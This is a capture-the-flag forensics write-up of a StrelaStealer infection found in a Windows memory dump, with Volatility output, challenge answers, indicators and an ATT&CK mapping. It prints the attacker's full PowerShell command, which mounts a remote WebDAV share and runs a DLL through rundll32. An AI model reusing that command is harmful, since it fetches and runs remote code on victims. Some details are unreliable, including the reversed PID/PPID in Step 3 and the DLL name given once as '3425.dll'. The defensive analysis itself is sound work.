








# StrelaStealer Memory Forensics Investigation

| Field | Value |
|---|---|
| Date | 30-05-2026 |
| Platform | CyberDefenders |
| Category | Memory Forensics |
| Difficulty | Medium |
| ATT&CK TTPs | T1059.001 · T1218.011 · T1564.003 · T1105 · T1071.001 · T1571 |
| Tools Used | Volatility 3 · VirusTotal |
| Time Spent | 3hrs 58 minutes |

---

## Executive Summary

On the 15-07-2024 at approximately 07:00 UTC, a Windows workstation used by a user named **Elon** at a financial institution was compromised by a **StrelaStealer** malware. An unknown and terminated process spawned a hidden PowerShell process which executed commands: found to execute a second-staged DLL payload named `3435.dll` through WebDAV share hosted remotely at `45.9.74.32:8888`. StrelaStealer as an information stealer might have exfiltrated sensitive data or information to the attacker's C2 server(s).

---

## Artifacts / Environments

**File provided:**
- `192-Reveal.dmp` (Windows memory image)

**Environment:**
- OS: Windows 10
- Architecture: 64-bit (AMD64 / x64)
- IP Address: `192.168.19.150`
- Hostname: DESKTOP-T51LU0E
- Memory Capture timestamp: 2024-07-15 07:00:08 UTC

---

## Scope

**Challenge questions:**
1. What is the name of the malicious processs?
2. What is the parent PID of the malicious process?
3. What is the file name that the malware uses to execute the second-stage payload?
4. What is the name of the shared directory being accessed on the remote server?
5. What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?
6. What is the username that the malicious process runs under?
7. What is the name of the malware family?

**Hypothesis 1:** For the record, given that a SIEM flagged the unsual network activity on the workstation, I expect to find atleast an external connection by a process with no legitimate reason to communicate externally.

**Hypothesis 2:** The workstation is confirmed to be compromised. I expect to uncover a living-off-the-land binary from any of these: Powershell, cmd.exe or rundll32 spawned by an unusual parent process, with commandline execution to stage a remote payload from a C2 server.

---

## Investigation

All plugin output was collected in a single pass using a custom Volatility 3 batch script ([Volatility plugin script file](../scripts/volatility-batch.sh)).



The following steps reflect the sequence of investigation from the output.
H
### Step 1 - Initial Triage (window.info)

**Why:** To confirm the OS version, architecture.

```bash
cat output/info.txt
```



**Findings:** Windows 10, 64-bit architecture, timestamp 2024-07-15 07:00:08 UTC.

---

### Step 2 - Process Tree Analysis (windows.pstree)

**Why:** To identify find suspicious parent-child process relationships and command line arguments.



**Findings:** The following chain was identified in the process tree:

```
[Unknown Terminated process]        PID 4120
└── powershell.exe PID 3692   PPID 4120   Start: 2024-07-15 07:00:03 UTC
    CMD: powershell.exe -windowstyle hidden net use
         \\45.9.74.32@8888\davwwwroot\ ; rundll32
         \\45.9.74.32@8888\davwwwroot\3435.dll,entry
    ├── net.exe     PID 2416   PPID 3692   Start: 2024-07-15 07:00:06 UTC
    │   CMD: "C:\Windows\system32\net.exe" use \\45.9.74.32@8888\davwwwroot\
    └── conhost.exe PID 6892   PPID 3692   Start: 2024-07-15 07:00:03 UTC
```

**Interpretation:**

Four initial indicators were found visible on a single command line:

A: **`-windowstyle hidden` flag** - PowerShell was instructed to run with no visible window to prevent the user from seeing the terminal. A legitimate application like `powershell` that has nothing to hide does not suppress its window.

B: **An external IP address, `45.9.74.32` hardcoded in the command arguments** - PowerShell connecting directly to an external IP is not normal user or application behaviour. Legitimate Windows software do not hardcode external IP addresses into command arguments at runtime.

C: **Port `8888` via the WebDAV path** - Port 8888, a non-standard port for http request over WebDAV path is deliberate to bypass the firewall using the normal Windows file sharing port of 445 for SMB (file sharing). Using the WebDAV to also evade perimeter controls.

D: **`rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`** - rundll32 executing a DLL directly from a remote UNC path is a living-off-the-land technique. The DLL never writes to disk on the victim machine, it loads directly from the attacker's server into memory, evading file-based endpoint detection.

### Step 3 - Process List Confirmation (windows.pslist)

**Why:** To confirm the PID and the PPID of the confirmed malicious process.

```bash
cat output/pslist.txt
```



**Findings:** The `powershell.exe` process' confirmed PID and PPID are 4120 and 3692 respectively. No process hiding detected because I found no discrepancy between pslist and pstree.

### Other finding: External C2 Connection Confirmed (windows.netscan)

**Why:** To confirm the suspicious Powershell process established a connection to the external IP address in the command line arguments.

```bash
cat output/netscan.txt
```



**Findings:** An established external connection found:

```
Protocol  Local Address          Foreign Address    State        PID   Process   Timestamp
TCPv4     192.168.19.150:51038   45.9.74.32:8888    ESTABLISHED  2416  net.exe   2024-07-15 07:00:06 UTC
```

**Interpretation:** `net.exe` is a child process spawned by the malicious Powershell process. It established a connection to the attacker's server. This confirms the WebDAV share mount was complete.

---

### Other finding: Full commandline Evidence (windows.cmdline)

**Why:** To get the file name that the malware used to stage a second payload. To get the name of the shared directory being accessed on the remote server.
To get an unambiguous evidence of the command the attacker instructed Powershell to execute.

```bash
cat output/cmdline.txt
```



**Findings:** Process and full command executed by Powershell

```
3692   powershell.exe   powershell.exe -windowstyle hidden net use
       \\45.9.74.32@8888\davwwwroot\ ; rundll32
       \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

**Interpretation:** The full command above shows and confirms a two-stage execution chain separated by a semicolon:

**Stage 1** - `net use \\45.9.74.32@8888\davwwwroot\` mounts the attacker's WebDAV share hosted at 45.9.74.32:8888 as a local network resource. The share directory name is `davwwwroot` which is a remote staging location for the payload.

**Stage 2** - `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry` executes the malicious DLL called `3425.dll` from the mounted share by calling an exported function `entry` through `rundll32.exe`. The DLL executes from the remote network path and is not written to the local filesystem of its victim.

### Other Finding: Username Attribution (windows.envars)

**Why:** To determine the username that the malicious process ran.

```bash
vol3 -f 192-Reveal.dmp windows.envars --pid 3692 | grep USERNAME
```



**Findings:** Username found to be `Elon`

**Interpretation:** The malware ran entirely on Elon's account. No escalation of privilege rights on this account or pivot to a different account.

---

### Finding: Malware Family Identification (Using VirusTotal)

**Why:** To identify the malware's family name, confirm it correlates the C2 IP address found earlier on the Powershell command line argument.

**IP was submitted:** `45.9.74.32` → `virustotal.com`



**Findings:** Security vendors flagged the IP address as malicious and activity identified as **STRELASTEALER**.

StrelaStealer steals email account credentias from Outlook and Thunderbird. On execution, the malware searches the `%APPDATA%\Thunderbird\Profiles\` directory for `logins.json` and `key4.db`, exfiltrates their contents to the C2 server.

**Interpretation:** StrelaStealer targeting Outlook and Thunderbird email credentials aligns with the context of a financial institution.
Compromised email credentials at a financial organization could give the attacker access to the internals if the victim is not isolated or intelligent security measures are not enforced.

## Challenge Answers

| Q | Question | Answer |
|---|---|---|
| Q1 | Name of the malicious process | `powershell.exe` |
| Q2 | Parent PID of the malicious process | `4120` |
| Q3 | File name used to execute the second-stage payload | `3435.dll` |
| Q4 | Name of the shared directory on the remote server | `davwwwroot` |
| Q5 | MITRE ATT&CK sub-technique ID for second-stage execution| `T1218.011` |
| Q6 | Username the malicious process runs under | `Elon` |
| Q7 | Malware family name | `STRELASTEALER` |

---

## Timeline of Events

| Timestamp (UTC)  | Event | Source | ATT&CK TTP |
|---|---|---|---|
| 2024-07-15 07:00:03 | `powershell.exe` (PID 3692) with `-windowstyle hidden` flag | pstree | T1059.001 |
| 2024-07-15 07:00:06 | `net.exe` (PID 2416) spawned — `net use` command executes, WebDAV share mount begins | pstree | T1105 |
| 2024-07-15 07:00:06 | ESTABLISHED TCP connection to `45.9.74.32:8888` confirmed via `net.exe` | netscan | T1071.001 |
| 2024-07-15 07:00:06 | `rundll32.exe` executes `3435.dll` from remote share via UNC path | cmdline | T1218.011 |

---

## Indicators of Compromise (IoCs)

| Type | Value | Context |
|---|---|---|
| IP | `45.9.74.32` | StrelaStealer C2 server hosting a WebDAV share on port 8888 |
| Port | `8888` | Non-standard C2 port used to bypass SMB (445) firewall rules |
| Path | `\\45.9.74.32@8888\davwwwroot\` | Full WebDAV share path used for payload staging |
| File | `3435.dll` | StrelaStealer second-stage DLL payload |
| Export Function | `entry` | DLL export function invoked by `rundll32.exe` |
| Argument Flag | `-windowstyle hidden` | PowerShell hiding execution window from user |

---

## ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Observed Behaviour |
|---|---|---|---|
| Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | Powershell executed two joint commands |
| Defense Evasion | T1564.003 | Hidden window | Powershell window hidden to conceal activity |
| Defense Evasion | T1218.011 | System Binary Proxy Execution: Rundll32 | `rundll32.exe` used to execute remote DLL |
| C&C | T1071.001 | Application Layer Protocol: Web Protocols | WebDAV over HTTP to attacker's server |
| C&C | T1571 | Non-Standard Port | WebDAV remote share on port 8888 to attacker's server |
| C&C | T1105 | Ingress Tool Transfer | `3435.dll` pulled from remote WebDAV share |

---

## Lessons Learned

1. **The process name may not always be the signal, command line arguments should be checked.**
    `powershell.exe` is a legitimate Windows binary. The `-windowstyle hidden` 
    flag combined with a hardcoded external IP and a non-standard
    port in the same command line is the entire attack written in plain
    text. Scanning command line arguments in pstree output is the primary
    triage skill in memory forensics.

2. **`windows.envars --pid` with `grep USERNAME` is the fastest path to
   user attribution.** It requires knowing which PID to target first
   which comes from pstree and netscan. The plugin order matters.

3. **Living-off-the-land leaves no custom binary on disk.** Every
   process in this attack - `powershell.exe`, `net.exe`,
   `rundll32.exe`, `conhost.exe` is a legitimate Windows binary.
   File-based detection catches nothing here. The only detection path is
   behavioural: parent-child relationships, command line analysis, and
   network connection attribution.

4. **WebDAV over non-standard ports is a deliberate firewall bypass.**
   Enterprise firewalls commonly block outbound port 445 (SMB) but
   permit high-port HTTP. Serving payloads over WebDAV on port 8888
   exploits this gap. Any outbound HTTP traffic to non-standard ports
   from endpoints should be treated as an anomaly requiring investigation.

---

## References

- CyberDefenders Reveal challenge:
  [cyberdefenders.org/blueteam-ctf-challenges/reveal](https://cyberdefenders.org/blueteam-ctf-challenges/reveal)
- VirusTotal - 45.9.74.32: [virustotal.com/gui/ip-address/45.9.74.32](https://www.virustotal.com/gui/ip-address/45.9.74.32)
- MITRE ATT&CK techniques referenced:
  - [T1059.001 - Command and Scripting Interpreter: Powershell](https://attack.mitre.org/techniques/T1059/001/)
  - [T1564.003 - Hide Artifacts: Hidden Window](https://attack.mitre.org/techniques/T1564/003/)
  - [T1218.011 - System Binary Proxy Execution: Rundll32](https://attack.mitre.org/techniques/T1218/011/)
  - [T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
  - [T1571 - Non-Standard Port](https://attack.mitre.org/techniques/T1571/)
  - [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)